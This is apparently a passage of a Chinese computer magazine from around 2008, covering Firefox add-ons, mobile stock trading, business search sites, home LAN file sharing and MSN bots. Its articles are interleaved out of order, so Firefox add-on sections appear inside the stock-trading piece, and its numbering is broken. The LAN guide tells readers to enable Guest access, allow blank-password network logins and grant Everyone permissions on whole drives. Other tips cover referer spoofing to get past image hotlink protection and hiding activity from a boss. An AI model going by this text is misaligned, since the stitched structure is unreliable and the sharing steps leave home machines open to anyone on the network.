其他专属格式的下载地址转换操作步骤同上，只需单击相应的加密或解密按钮即可。例如，欲将上述普通地址http://www.onlinedown.net/soft/45648.htm转换为超级旋风专用下载地址，只需将上述地址粘贴到“粘贴入”文本框，然后单击“旋风加密”按钮，“复制出”文本框就会自动弹出转换后的地址qqdl://aHR0cDovL3d3dy5vbmxpbmVkb3duLm5ldC9zb2Z0LzQ1NjQ0Lmh0bQ==。

了解了这款小软件，从此就不必再为无法使用“专属下载地址”发愁了。

## 5. 商业信息搜索

在全球经济网络化、数字化逐步形成的形势下，企业能否快速跟进新技术、适应网络经济的紧迫挑战，就变得十分重要了。在把握信息的过程中，专业商务类搜索工具起着十分重要的作用。

### （1）专业供求信息搜索

推荐地址：http://www.shangsou.com。“商搜”适合于各类中小型企业和商务精英，通过方便快捷的网络推广服务，可以帮助企业发布供求信息、搜索最新商机。平台对国内200余万家的企业资源数据库进行了整合分类，具有很高的商业价值。在页面上，包括了求购信息、供应信息、商品信息、商品图片、公司信息等栏目。

### （2）专业黄页搜索引擎

推荐地址：http://www.chinayp.com.cn。黄页信息的最大优点是真实可信，对于需要查找公司信息的商家来说，这种服务就显得十分重要了。黄页网是中国网通中国电话号簿公司旗下提供黄页增值服务的搜索引擎。通过先进的搜索模式、黄页所特有的科学合理的分类，可以为互联网用户提供本地化的企业信息和消费信息的查询。在服务上，黄页信息主要为用户提供工商和消费两大业务领域搜索。其中，工商黄页可以实现企业所在行业、企业名称、产品、品牌等多条件搜索，消费黄页主要面向各地区网民提供衣食住行等本地搜索，使实现消费者及时获得本地最新消费动态和相关信息。

通过上述专题介绍，可以看到：目前搜索技术发展日益成熟，新的搜索领域也越来越多，如无线搜索技术、跨语言跨媒体搜索技术、多维智能搜索技术也开始崭露头角，移动搜索、整合搜索、智能搜索和个性化搜索将成为搜索技术创新的新方向。对于搜索技术的发展，我们拭目以待。

# 一个好汉三个帮
——Firefox特色插件大检阅

自从Firefox浏览器推出3.0版本，越来越多的网民开始关注这只“火狐狸”，体验非IE浏览器带来的另类冲浪感受。不过使用一段时间以后，会发现它尽管比IE浏览器更好用、更高效，但仍无法与Maxthon、世界之窗之类基于IE的第三方浏览器软件所匹敌，总觉得功能太简单了。其实，Firefox支持丰富多彩的各类插件，只要借助这些插件，用户就能体验到非同一般的方便！

◆文/狮子王

## 一、增强浏览插件：常规上网更方便

上网冲浪，当然是浏览器的基本功能，但如何能让使用者体验到操作的便利，则是开发者不懈的追求，也是用户选择浏览器的重要条件之一。因此，为了让这只“火狐狸”更加的温顺，下面的插件当然是不可不装了。

### 1. IE Tab

尽管当前的Firefox用户群体日益壮大，但很多网站的排版、功能设计还是基于IE，因此会造成访问此类网站时无法使用全部的功能，遭遇尴尬的兼容性问题。因此，可以打开Firefox访问https://addons.mozilla.org/zh-CN/firefox/addon/1419，下载安装“IE Tab”插件，当遇到无法正常浏览的网页时，只要右击该网页标签或者右击网页空白处，选择“使用IE Tab浏览此页面”项，等页面自动刷新以后就能正常浏览了，从而免去手动启动IE来打开该网页的麻烦。同时，还可以到“工具→IE Tab选项”的“右键菜单”选项卡中自定义右键功能的调用，让IE Tab的使用更加方便（图1）。



### 2. QuickDrag

当浏览网页时，遇到感兴趣的内容链接一般都会打开它看看，可是Firefox默认会在当前的标签页中打开，造成无法继续浏览当前内容；遇到精美的图片，以前都是“另存为”；看到不懂的名词、术语，当然也会丢给Google来搜索一下，只可惜这些操作须经多次点击才能完成。你嫌麻烦吗？还是来试试“QuickDrag”插件吧，只要到https://addons.mozilla.org/zh-CN/firefox/addon/6912安装它，重启后打开任意一个网页，当想搜索某个关键词时，只要先拖动鼠标左键选中它，然后按住向任意方向拖一下，放开鼠标键即可在新标签页自动搜索；看到漂亮的图片，同样随意拖一下即可完成下载。但是，当拖动带有网址链接的关键词时，会发现它居然还是自动进行搜索！这可不是我们想要的，因此可依次点击“工具→附加组件”，选中“QuickDrag”后点击“选项”按钮，在弹出对话框里勾选最下方的“Open clickable links in new tabs instead of searching or saving”，确定退出后再点击关键词链接试试看，是不是自动打开它的网页了（图2）？


### 3. Boss Key

现在每个人都非常注重个人的隐私，当然不想让别人知道自己正在浏览什么内容的网站，因此每当有他人靠近，都会按下某快捷键，从而隐藏当前的内容。但是，Firefox默认不支持“老板键”，而且如果进行“最小化”，它仍然会存在于任务栏中，并且显示当前的网页名称。于是，“Boss Key”应运而生，只要到“https://addons.mozilla.org/zh-CN/firefox/addon/5462”安装它，以后当点击最小化按钮，Firefox就会自动缩小到系统托盘区。另外，在“工具→附件组件→BossKey→选项→隐藏设置”中指定快捷键以后，只要按下该热键即可快速隐藏，而且连系统托盘中的图标一同“消失”！

## 二、标签增强插件：让Tabs更智能

Firefox支持多标签页浏览功能，可以使用户轻而易举地浏览、切换不同的网页。但是，Firefox的“标签”默认支持的功能也太单调了，只具备“标识”的基本功能，因此使用插件将能极大提高它的实用性。

### 1. Colorful Tabs

很多网友都喜欢打开多个链接，然后再去仔细地阅读，这样就避免了网页载入的等待时间。可是，当打开多个标签页之后，很容易点错标签，原来都是“视觉疲劳”惹得祸啊。还是到https://addons.mozilla.org/zh-CN/firefox/addon/1368下载“ColorfulTabs”吧，它能让每个标签使用不同的颜色而变得易于识别：安装该插件后并重启Firefox，依次点击“工具→附加组件→ColorfulTabs→选项”，在“General”选项卡的“Fading Level”下拉菜单中选择“0(No tab Fading)”，其他选项则均保持默认值，确定后再尝试打开多个网页，你会发现每个网页标签均具有不同的颜色，从而再也不会误点击了。

### 2. FishEyeTabs

尽管给每个标签设置了颜色，但有些“懒人”总是不习惯及时关闭已经看完的网页，而是一直“Next”！可同时打开了太多的标签页，标签会变得太小而难以看清，根本不知道即将点击的标签里到底是哪个网站。还是到https://addons.mozilla.org/zh-CN/firefox/addon/4845下载“FishEyeTabs”吧，只要安装了它，用户可以把鼠标指针移到标签上来放大相应的标题，从而能快速找到想看的网页。值得注意的是，该放大功能仅在多个标签充满了标签栏整个窗口宽度后才被激活哦，如果你想尝试，不妨马上打开N个网页！

### 3. Tab Mix Plus

Maxthon的老用户都非常喜欢它的“撤销”功能，当出现误操作或重新打开刚刚关闭的网页时，只要展开撤销列表后点击想要的网址就能重新打开了。可惜，Firefox默认不具有撤销功能，而Tab Mix Plus的出现则弥补了此缺憾！

- 第一步：从https://addons.mozilla.org/zh-CN/firefox/addon/1122安装该插件，重启Firefox后依次点击“查看→工具栏→定制”菜单，找到并将“已关闭的标签页”图标拖到工具栏中。
- 第二步：点击“工具→Tab Mix Plus选项”，切换到“事件→标签页特性”界面，将“最大可恢复数”调整为自己想要的数值，默认为10。

这样，当关闭了某个网页之后，只要从工具栏中展开该图标，就能从网址列表里重新打开该网页了。而且，当打开多个标签以后，还会在标签栏两侧都显示滚动按钮，大大地方便了标签页的切换（图3）。



另外，在“Tab Mix Plus选项”中，我们还可以在“链接”里设置新链接的打开方式、从“鼠标”里设置不同的鼠标点击响应功能等等，从而能更加便捷地操控标签。

## 扩展下载插件：Down尽网络资源

除了浏览网页，使用最多的网络服务莫过于下载了，无论精美的图片、功能超强的软件、天籁般的音乐还是精彩搞笑的视频，统统都拉到自己的机器上。但是，浏览器自带的下载功能实在是太简陋了，根本无法满足各种资源下载的需要，只有借助下载工具，才能满足“据为己有”的心愿。

### 1. Flashgot

为了能下载到所有资源，相信每一位网友都安装了N个下载软件吧？什么快车、迅雷、Bitcomet等等一应俱全。但是当使用Firefox作为浏览器时，会发现调用它们来下载东西非常的麻烦，不像在IE中那样，点击一下下载链接就能自动运行下载软件。其实，只需要安装“Flashgot”插件，类似的操作同样能在firefox中使用，而且更加的方便，且易于管理。

- 第一步：从https://addons.mozilla.org/zh-CN/firefox/addon/220下载安装该插件，重启后依次点击“工具→Flashgot→更多选项”，在“常规”选项卡的“下载管理器”中选择喜欢使用的下载工具，这里支持绝大多数常用的下载软件，而且能自动检测当前已经安装好的程序，并以黑体字标出。
- 第二步：使用Firefox打开包含有下载资源的网页，只需要右击下载链接，然后从右键菜单中选择“使用Flashgot下载所选链接”，这样就能自动调用前面指定的软件来下载了。另外，现在有些资源往往都设置为了某个软件的专用链接，比如常见的迅雷专用链接，如果它恰恰不是你经常使用的程序，只要右击该链接，依次选择“Flashgot选项→Thunder”就能调用迅雷了。

### 2. Download Statusbar

除了下载工具，其实还有很多用户仍然喜欢Firefox自带的下载功能。但是，浏览器的下载功能太简单了，根本无法自己掌控下载过程。此时，不妨来试试“Download Statusbar”插件，只要从https://addons.mozilla.org/zh-CN/firefox/addon/26下载并安装它，尝试下载一个文件，会发现在浏览器底部左下角出现“下载管理”的控制条，同时还会出现正下载任务的进度条，将鼠标指针移动到它上面，会马上显示出该文件的下载地址，以及当前的下载速度和完成度。点击“下载管理”，可随时控制下载任务的“全部暂停”或“全部继续”，通过“下载历史”，可重新浏览甚至下载以前的任务（图4）。

在实际应用中，当使用Firefox下载文件，有时我们会无意中关闭它，从而造成没有下载完的进程也自动结束了，不得不重新打开浏览器而再次下载。为了避免这种问题，我们只要点击“下载管理→选项”，在弹出界面的“常规→功能”里勾选“关闭浏览器时自动继续未完成的下载”即可。



## 屏蔽广告插件：“视”界一片清爽

对于每一位网民，谁不痛恨那些不请自来的广告呢？它们不仅使网页载入速度变慢，而且还会影响注意力，很容易引起误点击，从而浪费宝贵的时间和金钱。因此，对于浏览器反广告的功能，以及第三方广告屏蔽的插件，永远都是网民们关注的对象。

### 1. Adblock plus

Adblock plus是一款颇受Firefox老用户欢迎的广告拦截插件，只要从https://addons.mozilla.org/zh-CN/firefox/addon/1865下载并安装它，重启后在搜索栏的后面会自动添加“Adblock Plus”的图标，当浏览含有各种弹出式广告的网页时，它就能自动拦截，点击该图标或使用快捷键“Ctrl+Shift+V”则能浏览被过滤的广告地址。另外，当浏览某些网站（比如银行、招聘网站等）以浮动窗口的方式发布重要信息的时候，如果不想将其过滤，只要使用鼠标中键点击一下该图标，刷新网页就能显示其中的漂浮广告了。

值得注意的是，现在很多网站为了躲避广告拦截软件的“杀戮”，使用各种非常规的技术来实现反拦截，因此“Adblock Plus”增加了黑白名单功能，只要展开“Adblock Plus”的图标，进入“首选项”界面，根据实际的广告地址，将它们分别添加到黑白名单里，这样就能实现既正常获得重要消息，又不放一个垃圾广告。

## 2. Flashblock
除了各种浮动广告，有些网站中则以SWF文件的形式来放置广告，往往同时放置很多个，虽然页面看起来很有动感，也十分的漂亮，但严重拖慢了网页的载入速度，而使用常见的广告拦截软件也无法方便的屏蔽。现在Flashblock插件“剑出偏锋”，只要从https://addons.mozilla.org/zh-CN/firefox/addon/433安装它，以后再浏览含有各种Flash广告的网页，在本应是SWF文件画面的位置，只显示Flash的图标占位符，从而阻止载入所有的Flash内容，如果实在想看看某个动画的内容，只要点击一下该占位符图标就能载入了（图5）。



## 3. Clean hide
为了保护自己的版权，很多博客、资料网站均采用了各种方法来防止访客随意复制自己的文字，比如最常见的就是屏蔽浏览器右键的技巧了。可现在，有些网站则在文字中添加了很多与网页背景色一致的随机文字，即使用户通过各种途径使用了鼠标右键功能，当将获得的文字粘贴到记事本或Word文档时，会发现出现了很多的干扰码，根本无法使用“替换”功能来清理。如果你也遇到了这种问题，不妨到https://addons.mozilla.org/zh-CN/firefox/addon/3648 安装“Cleanhide”插件，当以后再想复制含有干扰码的网页文字资料时，只需要先选中所有内容，然后点击一下“工具→清除隐藏文字”，最后再复制、粘贴，看看是不是已经找不到干扰码了？

## 五、鼠标手势操作：增强浏览的快感
经常使用Maxthon的用户，相信你肯定尝试过“鼠标手势”的便利，只要按住鼠标键后划出事先预置的轨迹，就能自动激活向前、后退、刷新、关闭等等常用的命令操作。可是，Firefox却默认不支持该功能，当然也无须遗憾，只要到https://addons.mozilla.org/zh-CN/firefox/addon/12下载安装“All-in-One Gestures”插件，重启以后稍作设置就能体验它了。

1. 第一步：依次点击“工具→附加插件→All-in-One Gestures→选项”，在“常规选项”的“启用”里勾选想使用的功能，然后勾选“启用手势轨迹”并设置自定义的颜色及宽度，这样能便于识别划出的轨迹。
2. 第二步：切换到“高级选项#1”选项卡，选中你习惯使用的手势触发键。
3. 第三步：切换到“自定义手势”选项卡，这里列出了默认的各种手势。当需要更改某个默认的手势时，只要先选中它，然后点击“编辑手势→绘制”按钮，在弹出的界面里划出想要的轨迹，一路确定后即可完成。对于那些不想使用的手势，可以采用“清除手势”的方法来删除。当然，如果发现误创建、误删除了重要手势，只要点击“撤销”按钮即可恢复默认了。
4. 最后，打开任意网页，按下你自定义的触发按钮后划出一个轨迹，看看它是不是已经智能地执行了想要的命令？

## 六、翻译类插件：看多外语也不怕
虽说是网络无国界，但精通多种外语的中国网民还只是凤毛麟角，遇到各种外文的网页内容，只能望之兴叹了，更别说想获取第一手资料的各种资讯了。难道要坐下来学习各种的语言文字吗？恐怖啊，还是借助各类翻译插件来帮忙吧。

### 1. FoxLingo
平时上网遇到外文网站，很多网民无非借助金山词霸之类的词典软件来即指即译，要么复制一段文字到Google翻译或其他的翻译类网站，从而能连猜带蒙地了解个大概，不但操作繁琐，而且效率非常的低。而https://addons.mozilla.org/zh-CN/firefox/addon/2444 提供的“FoxLingo”插件，能实现英、法、德、日、韩、西班牙、中文等等十个国家语言翻译，无论网页、文字都不在话下。

以常见的英文网页为例，当安装完毕后会出现FoxLingo工具条，如果遇到全部英文的网页，只要依次点击“网页→英文→英文至简体中文”，FoxLingo就能自动调用Google的网页翻译功能，刷新后就能得到中文的网页了。当然，有些网页文字中英文混合，如果只想翻译其中的英文，只要先选中它们，然后依次点击“文字→英文→英文至简体中文”即可（图6）。

当然，为了让FoxLingo更方便使用，可以点击它的图标后进入“选项”界面，从而能精简翻译功能中不经常遇到的语言、精简翻译工具条上不经常使用的功能图标，同时还能指定翻译后的网页采用“当前网页”或“新标签页”等多种打开方式。



## 户外炒股 胜在分分秒秒
击穿沪指历史点位，沪深A股的“抄底”声不绝于耳，是否反转行情让很多投资人都感到精神振奋。但是对于那些上班族以及时常需要跑户外的股民而言，无法时时掌握行情，无法即时操作股票无疑是最“胸闷”的事情。以往，总有人想到用笔记本配合无线网卡，但是这种方案虽然理论上可行，可实际可操作性非常低。难道整天带着一个笔记本不嫌累吗？难道大庭广众之下打开笔记本和股票软件不显得很庸俗吗？所以，做人低调一点，拿起智能手机炒股，这才是最聪明的。

◆文/阿亮

## 手机上网炒股的三大方式
尽管手机上网的速度一直成为诟病对象，但是对于股票软件而言，本身占用的网络带宽非常少，因此配合智能手机的上网方式正好非常合适。目前，可供大家选择的手机上网方式还是比较多的，除了WAP以及GPRS/CDMA以外，WiFi无线网络也算是很不错的解决方案。当然，大家在选择上网方式的同时还必须对股票软件的平台进行综合考虑，因为并不是每个平台都有合适的股票软件。

### 1. WAP方式
WAP的方式有着很明显的成本优势，因为现在移动和联通都开通了WAP包月服务，只要10～20元就能轻松畅游所有WAP开头的网站。事实上，WAP和GPRS技术基本上没有区别，只不过速度被人为限制并且无法访问部分站点。但是，现在移动和联通都在暗自较劲，因此可供使用的代理服务器一直比较稳定，此时WAP上网方式也可以直接访问部分股票软件所需要的站点，并不会有任何影响。当然，如果部分地区支持GPRS 10MB左右的流量包月，那也足够股票软件使用了，这可谓是最理想的选择。对于大多数用户而言，我们认为这还是最为合适的手机炒股方式，因为很多股票软件都基于Windows Mobile的智能手机平台，而这类手机恰恰对WAP上网有着比较好的支持。

### 2. Backword
对于正在自学外语的朋友，很想通过浏览外文网站来强迫自己熟悉外语的书写习惯，有的放矢地记忆陌生词汇。当然不用去翻字典，也不用去安装金山词霸，到https://addons.mozilla.org/zh-CN/firefox/addon/2955下载具有即指即译功能的“Backword”插件，只要先安装它，然后在网页中使用鼠标左键选中英语单词，当鼠标指针移动到选定位 置以后会自动弹出一个翻译条，其中不 仅列出了该单词的中文释义，而且当点 击小喇叭图标后，还能用真人声音来朗 读该单词，如果对给出的中文解释不满 意，点击一下搜索按钮就能获取更加详 细的解释。 有了它，以后边上网边学外语是 不是很方便？如果你对它的即指即译效 果不甚满意，只要依次点击“工具→ 附加工具→Backword→选项”，在“选 项Ⅰ”的“词典”中选择其他的翻译 引擎；同时，在“选项Ⅱ”里可以勾选 “只在Ctrl键按下时取词”复选框，这 样就能避免鼠标指针每次移动到单词上 都出现翻译条的问题，从而让即指即译 功能更加的人性化。

## 五、浏览图片插件：让“偷”变的轻而易举
随着数码相机、可拍照手机的日益普及，在博客、论坛中张贴照片的网友越来越多，为了更好地浏览，下面的两款特色插件不可不装哦。

### 1. FxIF
对于很多的摄影初学者，除了多看书、多操作、多向高手请教之外，通过高手作品中的EXIF参数来学习也是很不错的途径。但是，往常如果想查看某张照片的EXIF，只能将它下载到本地才可以。其实，如果使用Firefox浏览器，只要到https://addons.mozilla.org/zh-CN/firefox/addon/5673下载“FxIF”插件，安装并重启以后再次浏览照片，等完全载入以后，右击它并选择“属性”，这样在弹出的界面上就能得到详细的EXIF数据了。

### 2. RefControl
尽管当前很多网站都提供网络相册服务，允许网民自由上传自己的精彩图片，但出于种种理由，其中一大部分网站都禁止在非本站之外的网络社区进行引用，比如百度、163网络相册等等。因此，我们在逛论坛或博客时，经常遇到某个精彩的帖子中由于使用了不支持外部引用的网络相册，造成其中重要的图片无法正常显示，难道只能“望图兴叹”吗？来试试Firefox的“RefControl”插件吧，只要到 https://addons.mozilla.org/en-US/firefox/addon/953下载并安装它，重启后使用Firefox浏览器再次打开以前无法正常显示图片的网页，然后右击图片位置，选择右键菜单中的“将图片加入RefControl”，在弹出的“RefControl站点属性”对话框里选中“伪装--发送站点根目录”，点击两次“确定”按钮后退出。现在按下F5键刷新当前网页，看看期待已久的图片是不是已经呈现在屏幕上了？ 看到这里，是不是觉得Firefox的插件功能非常的实用，有一种跃跃欲试的感觉？如果你想寻找或体验更多、更有趣的功能插件，不妨到https://addons.mozilla.org/zh-CN/firefox来看看，这里已经按照插件的功能进行了分类，相信你很快就能找到最想要的插件，从而实现神奇的功能梦想！

> 拍摄者在后期处理中，如果选用软件或操作不当，很容易造成EXIF数据丢失，因此并非每一张照片均存在完整的EXIF数据。

### 2. CDMA方式
按理说，CDMA 1X上网的速度以及稳定性都高于GPRS和WAP，但是由于现在CDMA智能手机寥寥无几，因此用户在手机炒股时只能依赖于一些基于JAVA平台的软件。虽说很多JAVA平台的股票软件都还表现不错，可是稳定性以及速度比起智能手机平台的软件还是有所差距。此外，很多中小城市并没有良好的CDMA基点，要是出差在外而无法看到行情或是买卖操作，那可真的是“热锅上的蚂蚁”。

### 3. WiFi方式
使用WiFi上网无疑有着很高的稳定性与连接速度，而现在少数智能手机已经可以支持WiFi无线网络，这可谓是最佳的选择。在很多办公楼里，我们都可以搜索到免费的WiFi无线网络接入点，包括餐厅、商场、机场，这些也都是WiFi信号时常出现的地方。当然，WiFi上网炒股还有一个最大的优势，那就是可以在办公室里避免众目睽睽，更躲开老板的监督，用最神出鬼没的方式来炒股，那种偷着乐的趣味只有亲身体验才能感受到。

## 用什么软件来炒股
在实现手机上网之后，我们还得选择一款合适的股票信息查询软件以及在线交易软件。客观而言，目前免费的股票信息查询软件还是不少，可是当我们需要进行在线交易时，一般都需要使用付费软件。

### 1. JAVA平台的首选：同花顺
“同花顺”是目前比较流行的一款股票软件，如今也有了专门针对手机的版本。由于手机版同花顺软件基于JAVA平台，所以几乎主流手机都能够兼容。这款JAVA软件需要配合手机的WAP上网，因此手机应当至少具备彩屏以及GPRS功能。另外让我们感到高兴的是，CDMA用户也可以使用这款软件。

不过保险起见，建议大家登陆 http://mobile.10jqka.com.cn/wap.php 后，根据自己的手机型号来选择最合适的版本。手机版同花顺软件的基本功能非常齐全，能够不间断地实时显示行情，还能将完整的历史行情显示出来。在实现这两大基本功能的同时，还充分考虑到软件的易用性，按股民的操作习惯，为大多数界面设计了丰富的标签，用户可以通过左右键灵活地选择。

与其它简单的手机版股票软件相比，同花顺的另外一个优势便是支持K线图显示，而且能够看到均线、KDJ、MACD等几大重要技术指标，还实现了综合排名和自选列表等功能。但是，如果想要使用手机版同花顺软件进行在线交易，那么就得支付年费。目前，手机版同花顺软件针对新注册用户提供一个月的免费在线交易试用，可是此后就得按照每年200元的年费来支付。


## 如何避免产生GPRS流量资费
部分用户在尝试WAP包月服务中不小心使用了cmnet接入点，此时所产生的GPRS资费按照流量来计算，因此费用相当惊人。事实上，大家完全可以避免这种情况，其关键便是将手机中所有接入点都改为cmwap，删除所有的cmnet接入点，这样就再也不用担心了。至于部分地区的移动用户，还可以通过拨打10086来关闭cmnet接入点，而只保留cmwap接入点，这样就万无一失了。

## 开通手机的数据服务功能
在默认状态下，GPRS手机即便使用移动SIM卡也并未开通GPRS功能，此时需要联系当地服务商以确认开通该项服务。以索爱T628为例，在主菜单界面中依次选择“连接”→“数据通信”→“数据账户”→“添加账户”→“GPRS数据”，然后随便建立一个名称后直接保存。接着选择建立的名称后设置“APN”，其中设置为“CMWAP”表示只访问WAP网关，而“CMNET”表示所有GPRS网关。至于用户标识、密码、密码请求等都可以选择为关闭。此外，IP地址和DNS地址都可以不设定。当然，不同手机的设置方法可能不完全相同，但是其基本步骤是相通的，大家可以举一反三。



### 2. Windows Mobile平台：华证掌上通
对于使用Windows Mobile智能手机的用户而言，使用JAVA程序反而不是很方便，甚至老的机型还得安装JAVA模拟器，而且JAVA运行速度又比较慢。对于这类用户，我们推荐更加有平台贴合性的华证掌上通。这款手机版股票软件只能运行在使用Windows Mobile系统的智能手机（包含老版本的SmartPhone），下载地址为http://soft.cool-net.cn/Software_File/win_phone/finance/stock2004.rar。通过台式机的ActiveSync同步软件安装该软件之后，大家可以使用最普通的软件调用方式来打开华证掌上通。

与普通的手机版股票软件相比，华证掌上通的优势在于速度快而且可以实时查看这种K线图以及财务资料。当然，这款软件最大的缺点还是无法支持在线交易，此时大家只能通过手机的电话委托方式来实现买卖操作。



# 轻松玩转家庭局域网的互访
随着硬件价格的不断平民化，很多家庭都已经购买了电脑，甚至有相当一部分家庭已经购置了第二、第三台，一家老小不用再争夺电脑来上网冲浪了。另外，为了节省上网费用，楼上楼下的邻里之间，也使用路由器共享上网……无意间，我们已经拥有了最简单的“局域网”，可是怎么才能让网内的机器能实现互访呢？

◆文/狮子王

## 一、硬件准备
如果要想实现家庭局域网，最根本的，当然是事先必须将所有的电脑都“连”起来！网卡、网线、交换机、路由器，一个都不能少。最后，组成如图所示的网络拓扑结构，这样就能实现共享上网了（图1）。
但是，现在每台电脑之间仍然是孤立的，还无法实现互访互通，因此必须分别设置每一台电脑，这样才能将大家“网”在一起。



## 二、系统设置
虽然当前常见的操作系统为Windows XP和Vista，但在个别的设置方面差别却不大，这里我们将分别介绍。

### 第一步：设置静态IP和DNS
尽管我们现在能正常地浏览网页，但“本地连接”中的IP地址往往都是采用的“自动获取”，由DHCP服务器来自动分配IP地址，这样不但开机耗时较多，而且很容易造成两机间无法互访，对于以后的维护、管理、共享应用等等都会造成麻烦，因此建议进行手动指定IP地址。

Windows XP:
右击“网上邻居”，选择进入“属性”，找到并右击“本地连接”，依次选择进入“属性→常规”标签页，在“此连接使用下列项目”列表里先勾选“Microsoft网络的文件和打印机共享”复选框，然后再选中“Internet协议（TCP/IP）”，点击“属性”按钮，在弹出界面里选中“使用下面的IP地址”，然后在“IP地址”中输入指定的本机IP，比如“192.168.1.3”（这里一定要与路由器的IP地址处于同一网段，但不能相同，可参考一下路由器说明书）。“子网掩码”将自动预设为“255.255.255.0”，“默认网关”中输入路由器的IP地址，比如“192.168.1.1”；下方“首选DNS服务器”里输入本省（市）的IP地址，比如河北省的就可以使用“202.99.160.68”，其他地区的朋友请咨询周围的朋友或者致电ISP服务商即可。最后，点击“确定”按钮完成设置（图2）。



依次点击“开始→设置→网络连接”，在弹出界面中右击“本地连接”，在“属性→网络”界面的列表里先勾选“Microsoft网络的文件和打印机共享”复选框，然后再选中“Internet协议版本4（TCP/IPv4）”，进入“属性”界面后按照上述介绍的方法进行修改即可。

Windows Vista:
桌面上右击“计算机”后进入“属性”，点击“更改”按钮，在下方的“隶属于”里选中“工作组”，然后输入自定义的组名称，当然也可以使用默认的“MSHOME”，确定后退出。

上述的本地IP设置方法，同样适用于网内其他的机器，但一定要注意，“IP地址”不得相同，只需要按照顺序分别设置即可，比如“192.168.1.4”、“192.168.1.5”等等，其他参数相同。

### 第二步：处于同一“工作组”
如果以后想实现只要双击“网上邻居”，就能发现其他已经开机的电脑或共享资源，那必须保证所有机器都处于同一个工作组中。

## 第三步：启用Guest账户、设置访问密码

默认下，无论XP还是Vista系统都会禁止Guest用户访问本地机器，因此必须手动启用它：

**Windows XP:**

右击“我的电脑”后选择“管理”，在“系统工具→本地用户和组→用户”的右侧窗口中双击“Guest”用户名称，在弹出对话框里取消“账户已停用”前的勾选，点击“确定”按钮后生效。

另外，如果想让自己的共享资源只限于某几个人，此时只要用鼠标右键单击“Guest”用户名，在弹出菜单中选择“设置密码”，点击“继续”按钮后根据提示输入指定的密码，然后再将该密码告诉他们几个，以后必须凭用户名和密码才能访问你的共享资源（图4）。

**Windows Vista:** 与XP系统设置相同。

## 第四步：修改组策略设置

除了默认禁止Guest账户登录本地机器，系统的“组策略”设置同样禁止了Guest用户通过网络来访问，因此还必须修改默认的组策略设置：

**Windows XP:**

1.  在“运行”中输入“gpedit.msc”进入组策略配置界面，依次定位到“计算机配置→Windows设置→安全设置→本地策略→用户权利指派”，在右侧窗口找到并双击“拒绝从网络访问这台计算机”，在弹出界面里选中“Guest”后按下“删除”按钮，确定后退出。
2.  在左侧切换到“安全设置→本地策略→安全选项”，然后从右侧把“网络访问：本地账户的共享和安全模式”修改为“经典-本地用户以自己的身份验证”。
3.  如果你想让共享资源为所有网内用户开放，而且无须密码就能访问，这就必须在“安全设置→本地策略→安全选项”中双击右侧的“账户：使用空白密码的本地账户只允许进行控制台登录”，将其修改为“已禁用”即可（图5）。

**Windows Vista:** 与XP系统设置相同。

## 第五步：设置NTFS访问权限

经过上述的设置，他人已经能在“网上邻居”中看到我们这台机器，但如果共享硬盘分区采用了NTFS格式，仍会遭遇“没有访问权限”的错误提示，因此还需要修改一下。

**Windows XP:**

例如，我们想共享F盘或F盘中的某个文件夹，可以在“资源管理器”中右击F分区盘符进入“属性”页，切换到“安全”标签页后点击“高级”按钮，从“权限”标签页中依次点击“编辑→添加→高级→立即查找”，从下方的用户列表中找到并双击“Everyone”用户名，一路点击“确定”按钮后退出。

再次右击进入分区“属性”，从“组或用户名”列表选中“Everyone”，点击“编辑”按钮后根据自己的需要指派权限，完成后点击“确定”就可以正常访问了（图6）。

**Windows Vista:** 与XP系统设置相同。

## 第六步：设置共享资源及防火墙

**Windows XP:** 在“资源管理器”中依次点击“工具→文件夹选项→查看”，从列表里取消“使用简单文件共享（推荐）”，然后再从F盘中找到需要共享的文件夹，右击依次选择“属性→共享”，选中“共享此文件夹”，“共享名”里可输入任何代表该资源类型的字，比如“电影”等等。最后点击下方的“查看Windows防火墙设置”，切换到“例外”后勾选“文件和打印机共享”，一路确定后退出即可（图7）。

**Windows Vista:** 在F盘的“属性”界面切换到“共享”选项卡，点击“高级共享”按钮后选中“共享此文件夹”选项，确认后退出；然后，打开“控制面板”，双击“Windows防火墙”，单击左上角的“允许程序通过Windows防火墙”后在“例外”选项卡中勾选“文件和打印机共享”即可。

现在我们已经完成了资源的共享设置，现在只要双方都重新启动一下系统，接下来就可以共享各种精彩的资源了！

## MSN机器人 让线上生活更有趣

作为聊天工具的MSN，已经为越来越多的人们所熟悉。跟朋友交流感情、与同事协商工作、和客户联络业务，平日里，人们所使用的大多是MSN的聊天功能，或者是写博客来记录生活。正如QQ努力将触角延伸到网上各种角落一样，MSN也正在开发着更多更强大的功能，MSN机器人便是这些功能里很特别的一种。

◆文/TMG wyj

### 一、MSN机器人之基本介绍

使用MSN机器人很简单，只要你是MSN用户，就可以将机器人加为好友，大部分MSN机器人无须付费即可使用。以小i机器人为例，它的MSN账号为ibot@live.cn，将其直接加入到MSN联络人里，就可以在联系人的名单里发现小i的踪影。如果要添加更多的功能，需要下载安装相应的MSN插件，MSN上就会出现相关的功能按钮。

MSN机器人名为机器人，实则为一种挂在MSN上的程序，通过分析用户输入的语句并给出响应，进而实现与MSN用户的聊天，帮助查询天气、翻译语句、订购机票等功能。

发发牢骚而已，但这正好涉及到一个情况，很多人都想要制作自己的MSN机器人，但每个机器人只能被1200个人加为好友。如果想要保证MSN机器人长久可用，必须事先设定好自动转换机制，并且能够将机器人的数量进行定期增加。很多程序设计者忽略了MSN机器人好友数量的限制，导致很多机器人空有账号却无法使用。

开通GPRS服务后，手机可下载与开通MSN，如同在电脑上使用，手机MSN同样可以添加好友、管理个人信息、发送文字及表情，也可以加入MSN机器人，直接在手机上查询单词、股票、天气等信息。最重要的一点是，使用手机连接MSN对话产生的GPRS流量小，查询信息的速度比打开网页更快。运营商以Nokia 70手机实测，在好友数为100的情况下，中国移动每月10MB的流量，能满足每天在线2小时，发送300条消息或浏览10条新闻。因此，手机开通MSN服务后，通过MSN机器人查询相关信息比单纯的网页查询速度更快捷，更方便，更实惠。

